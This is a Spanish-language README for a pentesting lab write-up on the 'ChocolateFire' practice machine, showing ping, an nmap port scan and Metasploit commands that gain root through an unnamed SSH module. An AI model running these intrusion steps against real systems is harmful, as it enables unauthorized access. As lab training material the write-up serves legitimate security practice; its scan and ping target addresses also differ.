 # Lab de Pentesting: Acceso root directo mediante explotación de SSH máquina ChocolateFire

Este repositorio documenta el proceso utilizado para obtener acceso root a una máquina mediante explotación del servicio SSH con Metasploit.

---

## Resumen

El objetivo fue identificar los servicios activos, detectar una posible vulnerabilidad en SSH y aprovecharla utilizando un módulo de Metasploit que permite la ejecución remota directa como usuario root.

---

## Herramientas utilizadas

- `ping`
- `nmap` 
- `msfconsole`

---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa en la red.

---

### 2. Escaneo de puertos

        nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt

![puertos](screenshots/puertos.PNG)

---

### 3. Explotación del servicio SSH con Metasploit

Iniciamos Metasploit:

    msfconsole

Buscamos módulos relacionados con SSH. Las opciones 0 y 4 se consideraron útiles. Se eligió la opción 4.

![metasploit](screenshots/metasploit.PNG)

Configuramos los parámetros:

    use 4
    set RHOSTS 172.17.0.2
    set LHOST (Mi IP)
    run

![root](screenshots/root.PNG)


---

### 4. Acceso root exitoso

La explotación fue exitosa y se obtuvo acceso directo como **usuario root**.

---

## Resultados finales

- Acceso root directo conseguido mediante Metasploit.
- Explotación exitosa de una vulnerabilidad crítica en el servicio SSH.

---

## Consideraciones

Este laboratorio es únicamente para fines educativos y de práctica en entornos controlados. No debe aplicarse en sistemas reales sin autorización expresa.
